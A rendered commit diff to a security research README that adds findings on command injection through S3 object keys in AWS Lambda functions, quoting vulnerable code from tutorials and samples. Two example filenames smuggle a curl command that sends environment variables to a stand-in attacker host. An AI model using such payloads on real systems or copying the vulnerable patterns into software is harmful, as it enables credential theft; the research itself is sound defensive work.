

Before and after one commit to StealthyBugs/poc, a Markdown page: README.md, the part around one of its changes. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Add S3 object key injection findings, expand key takeaways
S3 key injection (Section 7.3):
- CRITICAL: Lambda Popen(shell=True) with S3 key (pentesting ref)
- CRITICAL: ClamAV Lambda scanner with execSync template literal
- CRITICAL: OWASP DVSA S3 upload feedback Lambda
- HIGH: aws-samples/spark-on-aws-lambda event data -> env vars
- MEDIUM: AWS official bash docs with unquoted S3 key iteration
- MEDIUM: S3 key URL encoding validation bypass

Expanded Key Takeaways (Section 9) to cover the full scope:
broader attack surface, ec2:CreateTags as privesc, eval/source
as most critical anti-pattern, and comprehensive mitigations.

https://claude.ai/code/session_01XhEF1EcjafC72VH9PAhmjb

````diff
--- a/README.md
+++ b/README.md
@@ -615,15 +615,75 @@ Tag values appended directly into `/etc/fstab`. A `mntpt` value containing newli
 
 ### 7.3 S3 Object Keys
 
-S3 object keys can contain **almost any byte** including `$()`, backticks, semicolons, pipes, newlines, spaces, and quotes. The only real limits are 1024 bytes and UTF-8 encoding. S3 event-triggered Lambdas that pass the key to shell commands are a classic injection vector:
+S3 object keys can contain **almost any byte** including `$()`, backticks, semicolons, pipes, newlines, spaces, and quotes. The only real limits are 1024 bytes and UTF-8 encoding. This is a well-documented attack vector in serverless architectures (OWASP Serverless Top 10), but vulnerable patterns persist across tutorials and samples.
+
+#### 7.3a S3-Triggered Lambda with `Popen(shell=True)` — Canonical Injection (CRITICAL)
+
+**Source:** [riyazwalikar/pentestawslambda](https://github.com/riyazwalikar/pentestawslambda/blob/master/Pentesting-AWS-Lambda-Functions.md)
 
 ```python
-# Dangerous pattern in S3-triggered Lambda
-key = event['Records'][0]['s3']['object']['key']
-subprocess.run(f"process_file s3://bucket/{key}", shell=True)  # RCE
+def s3trigger(event, context):
+    for record in event['Records']:
+        key = record['s3']['object']['key']
+        cmd = 'ls -ltra /tmp/' + key
+        p = Popen(cmd, shell=True, stdin=PIPE, stdout=PIPE)
 ```
 
-*Additional findings pending — research in progress.*
+An attacker uploading a file named `; curl attacker.com/steal?$(env | base64) #` achieves full RCE and credential exfiltration.
+
+#### 7.3b ClamAV Lambda Scanner — Security Tool with Injection (CRITICAL)
+
+**Source:** [DEV Community tutorial by sutt0n](https://dev.to/sutt0n/scanning-files-on-lambda-with-a-clamav-lambda-layer-475c) (widely-read)
+
+```javascript
+const scanStatus = execSync(
+  `clamscan --database=/opt/var/lib/clamav /tmp/${record.s3.object.key}`
+);
+```
+
+S3 object key interpolated directly into `execSync` via template literals. A *security tool* (virus scanner) is itself vulnerable to command injection.
+
+#### 7.3c OWASP DVSA — S3 Upload Feedback Lambda (CRITICAL, intentionally vulnerable)
+
+**Source:** [OWASP/DVSA](https://github.com/OWASP/DVSA)
+
+The `DVSA-FEEDBACK-UPLOADS` Lambda processes S3 event notifications. Input validation (`is_safe()` checking for `;`, `'`, `|`) was **commented out**, always returning `True`.
+
+**Exploit filename:** `Order.png;curl https://attacker.ngrok.io?$(env | base64 -wrap-0); echo.pdf`
+
+#### 7.3d `aws-samples/spark-on-aws-lambda` — Event Data to Environment Variables (HIGH)
+
+**Repo:** [aws-samples/spark-on-aws-lambda](https://github.com/aws-samples/spark-on-aws-lambda)
+
+```python
+def spark_submit(s3_bucket_script, input_script, event):
+    for key, value in event.items():
+        os.environ[key] = value  # Arbitrary event data -> env vars
+    subprocess.run(["spark-submit", ...], env=os.environ)
+```
+
+While `subprocess.run` uses a list (not `shell=True`), writing arbitrary event data to environment variables allows overriding `PATH`, `LD_PRELOAD`, or other sensitive variables.
+
+#### 7.3e AWS Official Bash Docs — Unquoted S3 Key Iteration (MEDIUM)
+
+**Source:** [AWS SDK Code Examples — Bash S3](https://docs.aws.amazon.com/code-library/latest/ug/bash_2_s3_code_examples.html)
+
+```bash
+function delete_items_in_bucket() {
+  local keys=$2
+  for key in $keys; do  # UNQUOTED — word splitting on spaces, glob expansion
+    delete_items="$delete_items{\"Key\": \"$key\"},"
+  done
+}
+```
+
+`$keys` is unquoted, causing word splitting on spaces and glob expansion on `*`, `?`, `[]` characters. Official AWS documentation demonstrating unsafe shell handling of S3 keys.
+
+#### 7.3f S3 Key URL Encoding — Validation Bypass (MEDIUM)
+
+**Source:** [aws-samples/amazon-textract-enhancer Issue #2](https://github.com/aws-samples/amazon-textract-enhancer/issues/2)
+
+S3 event notifications URL-encode the object key (`my test.pdf` → `my+test.pdf`). Input validation checking for `;` or `|` in the raw event key may miss URL-encoded variants (`%3B`, `%7C`) that get decoded *after* the check.
 
 ### 7.4 STS External IDs, Session Names & Other Identity Values
 
````
Also changed, not shown: other parts of README.md (+6 -2 lines).
